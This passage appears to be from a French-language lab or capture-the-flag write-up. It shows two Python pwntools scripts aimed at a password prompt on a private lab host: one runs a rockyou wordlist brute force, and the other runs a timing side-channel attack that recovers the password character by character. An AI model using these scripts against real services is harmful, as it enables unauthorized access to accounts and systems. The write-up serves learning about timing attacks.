 J'ai écrit un script Python simple pour tenter de casser le mot de passe avec une wordlist :

```python
import sys
from pwnlib.tubes.remote import remote

r = remote("192.168.56.83", 54311)
buff = r.recvuntilS(b"Password: ")
with open(sys.argv[1], encoding="utf-8", errors="ignore") as fd:
    for line in fd:
        r.send(line)
        response = r.readlineS().strip()
        if response != "Invalid password!":
            print(f"Possibly found password {line.strip()}: {response}")
            break
        r.recvuntilS(b"Password: ")
r.close()
```

J'ai testé avec la wordlist rockyou mais ça n'a rien trouvé ! Le programme ne semble pas non plus vulnérable à une format string.

Finalement, j'ai trouvé un indice sur le web : le programme répond moins vite pour chaque mauvais caractère saisi.

J'ai donc adapté mon code de cette façon :

```python
import sys
import string
from time import monotonic

from pwnlib.tubes.remote import remote

password = ""
while True:
    r = remote("192.168.56.83", 54311)
    buff = r.recvuntilS(b"Password: ")
    min_time = 60
    good_letter = "²"

    for char in string.printable.strip():
        line = password + char + "\n"
        start = monotonic()
        r.send(line)
        response = r.readlineS().strip()
        delay = monotonic() - start
        if delay < min_time:
            min_time = delay
            good_letter = char

        if response != "Invalid password!":
            print(f"Possibly found password {line.strip()}: {response}")
            sys.exit()
        r.recvuntilS(b"Password: ")

    password += good_letter
    print(password)
    r.close()
```

